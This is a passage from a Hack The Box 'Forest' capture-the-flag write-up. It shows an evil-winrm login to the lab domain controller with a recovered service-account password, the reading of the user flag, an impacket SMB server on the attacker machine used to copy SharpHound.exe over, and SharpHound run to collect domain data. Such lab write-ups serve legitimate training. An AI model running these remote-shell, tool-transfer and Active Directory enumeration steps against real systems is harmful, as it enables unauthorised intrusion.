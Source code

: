 ```
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest/shares]
└─$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p "s3rvice"     

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> dir


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        4/25/2023   4:46 AM             34 user.txt


*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> type user.txt
5298ea3ec17f98803cea32747709062f
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> 

```
- Since this is domain controllers, i wont rush into any fancy windows exploitaion at this moment
- Insteady i would enumerate other users in the domain by using bloodhound

# KERBEROS ENUMERATION
- At first writeup of [Active Hackthebox](https://blackninja23.github.io/Active-HTB/), i was using bloodhound-python but for this Forest hackthebox, i will use [Sharphound](https://github.com/BloodHoundAD/SharpHound/releases). At this moment, i will use [Sharphound v1.1.0](https://github.com/BloodHoundAD/SharpHound/releases/tag/v1.1.0) in which in description say that is use BloodHound 4.2
- Make sure version of bloodhound is same as what Sharphound release support at that time and if you want download, kindly check [Active Hackthebox](https://blackninja23.github.io/Active-HTB/) writeup
- I will start smbserver from my local computer

```
impacket-smbserver Q . -smb2support
```
- let dump data from kerberos use SharpHound.exe after transfer it from local computer

```
copy \\10.10.14.81\\Q\\SharpHound.exe .
.\SharpHound.exe --CollectionMethods All
```
- Output
